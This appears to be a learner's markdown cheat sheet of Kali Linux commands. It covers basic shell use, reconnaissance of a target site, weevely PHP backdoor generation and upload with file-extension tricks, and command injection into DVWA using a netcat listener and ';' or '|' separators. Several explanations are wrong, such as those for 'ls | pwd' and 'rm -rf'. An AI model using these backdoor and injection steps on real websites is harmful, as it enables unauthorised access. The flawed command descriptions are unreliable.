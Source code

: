 
# kali linux commands

- prints current working directry, uses to redirect to open a file - `pwd`  
- list all files - `ls`
- list of all files in the directory with details - `ls -la`
- open a folder - `cd`
- previous folder - `..`  
- prints descrption of a function - `man`   
-  Delete a file `rm -rf` 
- used to update like (winget in windows) - `sudo apt-get update` 
- upgrade kali linux - `sudo apt upgrade` 
- update kali linux - `sudo apt update`
- run 2 commands concurently -  `ls;pwd`
- run the 2nd command directly by neglecting the first commands - `ls | pwd `
- 
<h3 align="center"> ... </h3>  

## check IP address


- to check the information of the target website  
```
http://whois.domaintools.com/
```
- to check which techonology is used in target website  
```
http://toolbar.netcraft.com/site_report?url=
```

- which which website have same ipaddress  

>if we can hack into 1 we can hack all the other

```
https://www.robtex.com/ 
```  
- Using bing.com, search for `ip: [target ip]`
- <h3 align="center"> ... </h3> 
## FileUploadVulnerability
- weevely is a tool used for opening the backdoors and to access the website.
```
weevely generate 123456 /root/shell.php
```
- this creates a php file which is used to upload and open backdoors
- after uploading, run the following command
- `weevely (respective url) 123456`
- now from the terminal we can open the backdoor that is  `cd ..` to get back and then we can access as we want.
- burpsuite is used to interpt the website being executed with the help of proxy.

> __low__ - any file can be uploaded i.e., shell.php
>
> __medium__ - we remame the file from shell.php to shell.jepg i.e., shell.jpeg and upload it using bruiteforce by changing the file type to php.
>
> __high__ - we change the file type to shell.php.jpeg and upload and then expoit.


<h3 align="center"> ... </h3> 

## Code Execution Vulnerability

- open any searchable website (dvwa- command execution)
- run the following command
```
nc -vv -l -p 8080
```
![Screenshot 2024-04-09 232801](https://github.com/stellados53/kali_commands/assets/142677726/7d1cc4d5-5310-4934-84ba-2c44d0124a0e)

> nc   = netcat tool this is used to use and connect the computer to the website.
> 
> -vv  = it is just a verbose mode, which retireve more output.
> 
> -l   = Listen mode, used to create a server that listens for incoming connections.
> 
> -p   = Specifies the source port number.
> 
> 8080 = port number.

> __low__ - in searchbox END WITH ";" AND RUN THE COMMAND ACCORDING TO THE WEBSITE OS.MOST IMPORTANT IF THE IP IS 192.168.11.129, SUBTRACT THE LAST NUMBER -1 THAT IS 192.168.11.128.
>
> __medium__ - it cannot run two commands using ";" so we use "|" for the exploit.
>
> __high__ is not even possible
